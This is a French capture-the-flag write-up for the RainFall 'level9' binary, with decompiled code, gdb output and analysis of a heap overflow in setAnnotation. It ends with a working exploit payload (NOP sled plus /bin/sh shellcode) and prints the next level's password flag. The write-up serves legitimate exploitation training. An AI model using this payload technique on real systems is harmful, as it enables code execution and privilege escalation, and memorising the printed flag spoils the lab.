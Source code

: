 # level 9



Voici le code decompilé avec dogBolt (ghidra)
```
void main(int param_1,int param_2)
{
  N *this;
  undefined4 *this_00;
  if (param_1 < 2) {
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  this = (N *)operator_new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator_new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}

// N::N(int)
void __thiscall N::N(N *this,int param_1)

{
  *(undefined ***)this = &PTR_operator__08048848;
  *(int *)(this + 0x68) = param_1;
  return;
}


void __thiscall N::setAnnotation(N *this,char *param_1)
{
  size_t __n;

  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}

int __thiscall N::operator+(N *this,N *param_1)

{
  return *(int *)(param_1 + 0x68) + *(int *)(this + 0x68);
}

int __thiscall N::operator-(N *this,N *param_1)

{
  return *(int *)(this + 0x68) - *(int *)(param_1 + 0x68);
}
```


Le programme fourni semble implémenter un certain nombre de fonctionnalités C++ manipulant des objets de type N. Voici une explication détaillée de chacune des parties du programme :

## Fonction main
La fonction principale du programme commence par vérifier si au moins un argument a été passé en ligne de commande (en excluant le nom du programme lui-même). Si ce n'est pas le cas, elle appelle _exit(1).

- param_1 représente le nombre d'arguments (argc).
- param_2 est un pointeur vers un tableau de chaînes de caractères (argv).

## Allocation et Initialisation des Objets N
Deux objets de type N sont créés et initialisés :

- this : Premier objet, alloué avec operator_new(0x6c) et initialisé avec une valeur de 5.
- this_00 : Deuxième objet, également alloué avec operator_new(0x6c) et initialisé avec une valeur de 6.

Après leur création, la fonction setAnnotation est appelée sur le premier objet this en passant le premier argument de ligne de commande (argv[1]). Cette méthode est utilisée pour définir une donnée membre de l'objet en copiant la chaîne de caractères passée en argument dans l'objet.

Ensuite, il y a un appel indirect de fonction via le deuxième objet this_00, qui semble utiliser un pointeur de fonction stocké dans ou avec l'objet (impliquant peut-être une table de méthodes virtuelles ou un comportement similaire).

## Classe N et ses Méthodes
Constructeur N::N(int)
Ce constructeur initialise les objets de type N :

- Il configure un pointeur (probablement un pointeur de table virtuelle) à une adresse fixe.
- Il stocke la valeur param_1 à un emplacement spécifique de l'objet (this + 0x68).

## Méthode setAnnotation(char*)
Cette méthode copie une chaîne de caractères dans l'objet, en commençant juste après le début de l'objet (à l'adresse this + 4). La longueur de la chaîne est déterminée par strlen, et il n'y a aucune vérification pour prévenir un dépassement de la taille allouée pour l'objet, ce qui représente une vulnérabilité de débordement de tampon.

## Surcharge des opérateurs + et -
Ces méthodes permettent l'addition et la soustraction des valeurs stockées dans les objets N. Elles accèdent directement à un entier stocké dans une position fixe de l'objet (this + 0x68) et effectuent l'opération demandée.

## Exploitation Potentielle
La vulnérabilité ici est l'utilisation non sécurisée de memcpy dans setAnnotation, qui permet un débordement de tampon si une chaîne trop longue est passée en argument. Cela peut être exploité pour écraser des données critiques du programme, y compris des pointeurs de fonction, permettant potentiellement l'exécution de code arbitraire.


## Detail de l'exploit

Nous allons mettre un breakpoint apres setAnnotation dans gdb et utiliser un script python qui ecris "aaaabbbb....YYYYZZZZ" dans la sortie. Ce qui nous permettra de voir ou nous pourrons ecraser les adresses de retour, et reorienter le code.

```
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax <-------------------------------------------
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
```

```
Starting program: /home/user/level9/level9 $(python /tmp/script.py)

Breakpoint 1, 0x0804867c in main ()
(gdb) i r
eax            0x804a00c        134520844
ecx            0x5a5a5a5a       1515870810
edx            0x804a0dc        134521052
ebx            0x804a078        134520952
esp            0xbffff640       0xbffff640
ebp            0xbffff668       0xbffff668
esi            0x0      0
edi            0x0      0
eip            0x804867c        0x804867c <main+136>
eflags         0x200283 [ CF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x42424242       1111638594
ecx            0x5a5a5a5a       1515870810
```

Nous constatons que eax pointait a l'adresse 0x804a00c puis 0x42424242 apres continuation.
Nous allons donc creer le payload suivant qui redirige le programme a l'adresse 0x804a00c et a cette adresse nous mettons l'adresse 0x804a018 pour rediriger dans notre nodSled et glisser jusqu'a notre shellcode.

Apres de nombreux tests d'alignement de memoire, voici le payload final.
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x18\xa0\x04\x08" + "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(108 - 30 - 23 -5) + "\x0c\xa0\x04\x08"')

$ whoami
bonus0

$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

